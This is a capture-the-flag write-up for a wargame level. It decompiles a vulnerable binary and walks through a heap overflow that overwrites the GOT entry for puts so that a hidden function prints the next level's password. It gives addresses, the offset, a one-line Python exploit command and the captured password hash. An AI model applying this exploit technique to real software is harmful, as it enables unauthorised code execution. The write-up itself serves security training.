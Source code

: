 get the binary on host
* `scp -P 4242 level7@192.168.56.107:./level7 ./binary/level7`

decompile using ghidras
```c
                undefined4 main(undefined4 param_1,int param_2)
                {
                    undefined4 *puVar1;
                    undefined4 uVar2;
                    undefined4 *puVar3;
                    
                    puVar1 = (undefined4 *)malloc(8);
                    *puVar1 = 1;
                    uVar2 = malloc(8);
                    puVar1[1] = uVar2;
                    puVar3 = (undefined4 *)malloc(8);
                    *puVar3 = 2;
                    uVar2 = malloc(8);
                    puVar3[1] = uVar2;
                    strcpy(puVar1[1],*(undefined4 *)(param_2 + 4));
                    strcpy(puVar3[1],*(undefined4 *)(param_2 + 8));
/*080485c2*/        uVar2 = fopen("/home/user/level8/.pass", "r");
/*080485eb*/        fgets(c,68,uVar2);
/*080485f0*/        puts("~~");
                    return 0;
                }
/*080484f4*/    void m(void)
                {
                    undefined4 uVar1;
                    
                    uVar1 = time(0);
                    printf("%s - %d\n",c,uVar1);
                    return;
                }
```

GOT Overwrite, replace puts return by function m\
We need addr of `m()`, `puts()` and `the offset for puVar1[1]`
* m addr ====> 0x0804 84f4
* puts addr => 0x08049928
* offset is 20

We overflow the first strpcy with the addr of puts so when strcpy is call the second time it will write m() addr. Doing so replace all futur call to puts() by call to m()

```
$ ./level7 $(python -c 'print "a"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
    5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```